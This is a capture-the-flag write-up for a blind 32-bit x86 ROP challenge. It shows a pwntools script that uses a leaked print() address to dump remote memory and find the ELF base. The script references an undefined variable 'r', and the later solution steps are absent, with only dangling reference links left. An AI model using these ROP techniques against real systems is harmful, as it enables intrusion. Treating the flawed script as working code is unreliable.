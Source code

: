 # CyberChallenge.IT 2024 - University CTF

## [pwn] Triwizard Maze (3 solves)

Are you a ROP wizard Harry???

**NOTE**: yes, there are no attachments for this challenge. This is intended.

`nc triwizard-maze.challs.external.open.ecsc2024.it 38202`

Author: Marco Bonelli <@mebeim>

### Introduction

The challenge does not have attachments and initially starts as "blind".
Connecting to the provided endpoint we get an ASCII art followed by some minimal
information:

```none
void print(const void *buf, size_t n) is at 0x13371f2b

Give me your x86 32bit ROP chain (exactly 1024 bytes):
```

So the remote is asking us to provide 1024 bytes of ROP chain to be run blindly,
however it also gives us the address of a `print()` function.

### Dumping the remote ELF

As already suggested from the initial prompt, the remote program is a 32-bit x86
binary. Using the provided `print()` function and creating a very simple ROP
chain of 1 call, we can dump memory at arbitrary addresses. Furthermore, the
address of the `print()` function does not change, which also tells us that
either the remote executable is not position independent, or that the remote
server has no ASLR enabled.

Probing around the address of the function itself allows us to discover that the
remote binary is an ELF, and it is mapped in memory starting at `0x13370000`.
This address can be found dumping backwards one page at a time starting from the
provided `print()` address aligned to page size (`addr & ~0xfff`). The magic
bytes `\x7fELF` mark the start of the ELF header.

```python
from pwn import *

context(arch='i386')

for offset in range(0, 0x100000, 0x1000):
 REMOTE = remote('triwizard-maze.challs.cyberchallenge.it', 38202)
 REMOTE.recvuntil(b'print(const void *buf, size_t n) is at ')
 print_fn = int(r.recvline(), 0)

 REMOTE.recvuntil(b'):\n')
 base = (print_fn & ~0xfff) - offset
 chain = flat(print_fn, 0, base, 4)
 REMOTE.send(chain.ljust(1024))

 try:
  if REMOTE.recvn(4) == b'\x7fELF':
   log.success('ELF base is at %x', base)
   break
 except EOFError:
  pass

 REMOTE.close()
```


[man-1-file]: https://manned.org/man/file.1
[man-1-readelf]: https://manned.org/man/readelf.1
[man-2-close_range]: https://manned.org/man/close_range.2
[man-2-getrandom]: https://manned.org/man/getrandom.2
[man-2-getrlimit]: https://manned.org/man/getrlimit.2
[man-2-mkdirat]: https://manned.org/man/mkdirat.2
[man-2-mmap]: https://manned.org/man/mmap.2
[man-2-openat]: https://manned.org/man/openat.2
[man-2-prctl]: https://manned.org/man/prctl.2
[man-2-readdir]: https://manned.org/man/readdir.2
[man-2-seccomp]: https://manned.org/man/seccomp.2
[seccomp-tools]: https://github.com/david942j/seccomp-tools
[wiki-bfs]: https://en.wikipedia.org/wiki/Breadth-first_search
[wiki-dfs]: https://en.wikipedia.org/wiki/Depth-first_search